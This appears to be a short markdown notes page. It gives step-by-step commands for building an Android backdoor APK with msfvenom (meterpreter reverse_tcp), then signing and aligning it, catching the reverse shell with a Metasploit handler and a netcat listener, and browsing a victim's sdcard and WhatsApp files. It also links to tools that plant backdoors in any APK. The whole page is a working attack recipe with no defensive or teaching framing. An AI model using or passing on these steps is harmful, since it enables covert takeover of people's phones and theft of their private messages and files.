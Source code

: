 # Notes

## generate backdoor .apk
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=localhost LPORT=4444 R > evil.apk
```

## sign .apk
```bash
# generate keystore
keytool -genkey -v -keystore key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias alias

# sign .apk
jarsigner -keystore key.jks -keypass <your-password> evil.apk <your-alias>

# align .apk
zipalign -v 4 evil.apk evil-signed.apk
```

## exploit
```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST localhost
set LPORT 4444
exploit

help
```

## listen from netcat
```bash
nc -nlvp 443
```

## list payloads
```bash
msfvenom -l payloads | grep -i "android"
```

### usefull paths
```bash
# sdcard files
cd /sdcard/
# whatsapp files
cd /sdcard/Whatsapp/
```
## backdoor in any .apk
("Source code")[https://github.com/dana-at-cp/backdoor-apk]

## fixed backdoor .apk source code
("Fixed .apk")[https://github.com/giovannicolonna/msfvenom-backdoor-android/]

